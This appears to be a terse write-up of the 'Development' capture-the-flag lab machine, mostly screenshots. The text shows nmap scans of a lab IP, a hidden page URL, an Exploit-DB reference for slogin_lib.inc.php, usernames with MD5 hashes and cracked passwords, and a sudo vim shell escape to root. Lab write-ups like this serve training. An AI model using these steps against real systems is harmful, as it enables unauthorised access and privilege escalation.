# Development


```bash
sudo nmap -Pn -v -p- -sS -T5 192.168.43.16
```




```bash
sudo nmap -v -T4 -sC -sV -p22,113,139,445,8080 192.168.43.16
```




















```bash
http://192.168.43.16:8080/developmentsecretpage
```






随便尝试一个密码



slogin_lib.inc.php



https://www.exploit-db.com/exploits/7444






```bash
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81	12345678900987654321
patrick, 87e6d56ce79af90dbe07d387d3d0579e	P@ssw0rd25
qiu, ee64497098d0926d198f54f6d5431f98		qiu
```









```bash
patrick@development:/home/intern$ sudo /usr/bin/vim
:! /bin/bash
```




